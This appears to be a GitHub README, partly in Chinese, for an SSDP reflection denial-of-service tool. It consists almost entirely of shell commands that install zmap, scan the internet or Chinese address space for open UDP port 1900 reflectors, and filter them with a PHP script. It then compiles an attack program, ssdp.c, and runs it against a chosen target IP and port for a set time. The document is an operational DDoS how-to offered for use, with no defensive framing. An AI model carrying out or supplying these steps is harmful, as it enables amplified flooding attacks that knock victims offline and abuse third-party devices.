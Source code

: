 # SSDP
```
yum -y install gcc+ gcc-c++<br>
yum -y install gcc libcap libpcap libpcap-devel screen php dstat cmake gmp gmp-devel gengetopt byacc flex git json-c cpan vnstat zmap<br>
yum install cmake gmp-devel gengetopt libpcap-devel flex byacc json-c-devel libunistring-devel<br>
wget ftp://ftp.gnu.org/gnu/gengetopt/gengetopt-2.22.6.tar.gz<br>
tar -zvxf gengetopt-2.22.6.tar.gz<br>
cd gengetopt-2.22.6<br>
./configure<br>
make
make install<br>
```
安装zmap<br>
```
yum install git<br>
git clone https://github.com/zmap/zmap<br>
cd zmap/<br>
cmake .<br>
make -j4<br>
make install<br>
```
安装完成！<br>
扫描全球：<br>
```screen zmap -M udp -p 1900 --probe-args=file:upnp_1900.pkt -o ssdp.txt<br>```
扫描国内：<br>
```screen zmap -M udp -p 1900 -w cn.txt -B 100M --probe-args=file:upnp_1900.pkt -o ssdpscan.txt<br>```
扫描完成后,我们开始执行过滤!<br>
过滤 ： <br>
```php ssdpfilter.php ssdp.txt ssdpfiltered.txt 200 1000```
200处理个数  1000线程<br>
全自动：screen ./scan 1<br>
自动过滤跟扫描，到时候表完成过后是ssdp.txt<br>
编译攻击脚本：<br>
```gcc -pthread ssdp.c -o ssdp<br><br>```
攻击：<br>
```./ssdp <target IP> <target port> <reflection file>  <time (optional)>```
